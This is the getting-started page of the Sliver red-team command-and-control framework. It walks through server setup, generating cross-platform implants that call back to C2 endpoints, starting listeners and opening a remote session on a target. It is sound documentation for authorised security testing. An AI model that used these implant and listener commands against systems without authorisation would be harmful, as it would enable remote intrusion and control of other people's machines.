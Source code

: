# 1. Server Setup

The first thing you'll need to do is setup a Sliver server.

The server supports Linux, Windows, and MacOS however we recommend running the server on a Linux or MacOS host, as some features may be more difficult to get working on a Windows server. However, the Windows client should work just fine when accessing a Linux/MacOS server.

Download the latest [release](https://github.com/BishopFox/sliver/releases) for your platform, and just run the binary. The first time you run the server it'll need to unpack some assets, which may take a minute or two, subsequent start ups should be faster.

__NOTE:__ Sliver has two external dependancies for _optional_ features: MinGW and Metasploit. To enable shellcode/staged payloads you need to install MinGW. To enable MSF integrations you'll need Metasploit installed.

The `Dockerfile` build of Sliver is mostly designed to run the unit tests but includes both MinGW and Metasploit. If you plan to run the server using Docker you'll need to forward the appropriate TCP ports (e.g. 80, 443, 31337) yourself.


### MinGW Setup (Optional)

In order to enable shellcode/staged/DLL payloads you'll need to install MinGW on the server (clients connecting to the server do not need it installed). By default Sliver will look in the usual places for MinGW binaries but you can override this using the [environment variables](https://github.com/BishopFox/sliver/wiki/Environment-Variables).

#### Linux

```
apt-get install mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

#### MacOS

```
brew install mingw-w64
```

__Note:__ On MacOS you'll likely have to configure [environment variables](https://github.com/BishopFox/sliver/wiki/Environment-Variables) for MinGW.

### Metasploit Setup (Optional)

We strongly recommend using the [nightly framework installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers), Sliver expects version 5 or later.

## Generating Implants

Generating implants is done using the `generate` command, you must specify at least one C2 endpoint using `--mtls`, `--wg`, `--http`, or `--dns`. Note that when an implant attempts to connect to an endpoint specified using `--http` it will try both HTTPS and then HTTP (if HTTPS fails). We recommend using mTLS (`--mtls`) or WireGuard (`--wg`) whenever possible. You can also specify an output directory with `--save`, by default the implant will be saved to the current working directory.

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop

[*] Generating new windows/amd64 Sliver binary
[*] Build completed in 00:10:16
[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```

Sliver implants are cross-platform, you can change the compiler target with the `--os` flag. Sliver accepts any Golang GOOS and GOARCH as arguments `--os` and `--arch`, we officially only support Windows, MacOS, and Linux, but you can at least attempt to compile for any other [valid Golang GOOS/GOARCH](https://gist.github.com/asukakenji/f15ba7e588ac42795f421b48b8aede63) combination. WARNING: Some commands/features may not work on "unsupported" platforms.

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --skip-symbols --os mac

[*] Generating new darwin/amd64 Sliver binary
[!] Symbol obfuscation is disabled
[*] Build completed in 00:00:03
[*] Sliver binary saved to: /Users/moloch/Desktop/PROPER_ANTHONY
```

The server will also assign codenames to each generated binary i.e. `NEW_GRAPE.exe` you can rename the file to anything you need to, but these codenames will still uniquely identify the generated binary (they're inserted at compile-time). You can also view all previously generated implant binaries with the `slivers` command:

```
sliver > slivers

Name                    OS/Arch        Debug  Format
====                    =======        =====  ======
CAUTIOUS_PANPIPE        darwin/amd64   false  EXECUTABLE
LATE_SUBCOMPONENT       windows/amd64  false  SHARED_LIB
RUBBER_PRINTER          windows/amd64  true   SHARED_LIB
RACIAL_SPECTACLES       darwin/amd64   false  EXECUTABLE
MATHEMATICAL_SASH       darwin/amd64   true   SHARED_LIB
MUSHY_TRADITIONALISM    windows/amd64  false  SHARED_LIB
SICK_SPY                darwin/amd64   false  EXECUTABLE
```

If you need to re-download a previously generated implant use the `regenerate` command, note that positional arguments (the implant name) comes after the command flags (e.g., `--save`):

```
sliver > regenerate --save /Users/moloch/Desktop/ NEW_GRAPE

[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```

#### Additional Details

For addition details about each C2 please see:
* [HTTP(S) C2](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2)
* [DNS C2](https://github.com/BishopFox/sliver/wiki/DNS-C2)

## Getting Shells

Before you can catch the shell, you'll first need to start a listener. You use the commands `mtls`, `http`, `https`, and `dns` to start listeners for each protocol (remember endpoints specified with `--http` can connect to a listener started with `https`). You can use the `jobs` command to view and manage listeners running in the background.

```
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   mTLS  tcp       8888
```

In this example we're using Mutual TLS, the required certificates for setting up and securing this connection have already been generated in the background and the client certificate pair was embedded into the implant at compile-time. So to get a shell you just have to run the binary on the target.

```
[*] Session #1 PROPER_ANTHONY - 127.0.0.1:49929 (narvi.local) - darwin/amd64

sliver > use 1

[*] Active sliver PROPER_ANTHONY (1)

sliver (PROPER_ANTHONY) > ls

/Users/moloch/Desktop
=====================
.DS_Store                 6.0 KiB
.localized                0 B
PROPER_ANTHONY            6.3 MiB
```


## Multiple Domains/Protocols

You can specify multiple domains and protocols during the generation process. Right now Sliver will attempt to use the most performant protocols first (MTLS -> HTTP(S) -> DNS) using subsequent domains/protocols when connections fail.

```
sliver > generate --mtls example.com --http foobar.com --dns 1.lil-peep.rip
```

Eventually we'll add a feature to manually specify the fallback protocols, or you can add this feature and send up a PR :).
